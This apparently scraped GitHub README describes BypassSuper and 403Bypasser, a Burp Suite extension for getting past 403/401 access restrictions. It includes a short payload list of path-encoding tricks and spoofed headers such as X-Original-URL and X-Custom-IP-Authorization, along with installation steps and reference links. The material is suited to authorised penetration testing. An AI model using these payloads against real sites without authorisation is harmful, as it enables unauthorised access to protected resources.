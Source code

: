 

```
                ______                            _____
                | ___ \                          /  ___|
                | |_/ /_   _ _ __   __ _ ___ ___ \ `--. _   _ _ __   ___ _ __
                | ___ \ | | | '_ \ / _` / __/ __| `--. \ | | | '_ \ / _ \ '__|
                | |_/ / |_| | |_) | (_| \__ \__ \/\__/ / |_| | |_) |  __/ |
                \____/ \__, | .__/ \__,_|___/___/\____/ \__,_| .__/ \___|_|
                        __/ | |                              | |
                       |___/|_|                              |_|
                    author: summersec
                    version: 1.0
                    Github: https://github.com/SummerSec/BypassSuper
````
# 添加自己的规则

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201203214401315.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201203214306848.png)

https://twitter.com/infosecsanyam/status/1331146922011324417

https://twitter.com/i_hack_everyone/status/1332027600726753280

https://github.com/lobuhi/byp4xx/blob/main/byp4xx.sh#L70

https://twitter.com/jae_hak99/status/1333811754745249792

https://twitter.com/h4x0r_dz/status/1317218511937261570

https://github.com/KathanP19/HowToHunt/blob/master/WAF_Bypasses/WAF_Bypass_Using_headers.md



## GitHub

项目地址：https://github.com/SummerSec/Bypass403or401

---



# 403Bypasser

An burpsuite extension to bypass 403 restricted directory. By using PassiveScan (default enabled), each 403 request will be **automatically** scanned by this extension, so just add to burpsuite and enjoy.

Payloads: 
$1: HOSTNAME
$2: PATH
```
$1/$2
$1/%2e/$2
$1/$2/.
$1//$2//
$1/./$2/./
$1/$2 -H "X-Original-URL: /$2" 
$1/$2 -H "X-Custom-IP-Authorization: 127.0.0.1" 
$1/$2 -H "X-Rewrite-URL: /$2"
$1/$2%20/
$1/%20$2%20/

$1/$2..;/
```

## Installation

`BurpSuite -> Extender -> Extensions -> Add -> Extension Type: Python -> Select file: 403bypasser.py -> Next till Fininsh`

## Screenshot
<img src="ScreenShot.png" width="450"/>

## References:
* [https://twitter.com/iam_j0ker/status/1324354024657711106?s=20](https://twitter.com/iam_j0ker/status/1324354024657711106?s=20)
* [https://twitter.com/jae_hak99/status/1297556269960540161?s=20](https://twitter.com/jae_hak99/status/1297556269960540161?s=20)
* [https://twitter.com/SalahHasoneh1/status/1296572143141031945](https://twitter.com/SalahHasoneh1/status/1296572143141031945)
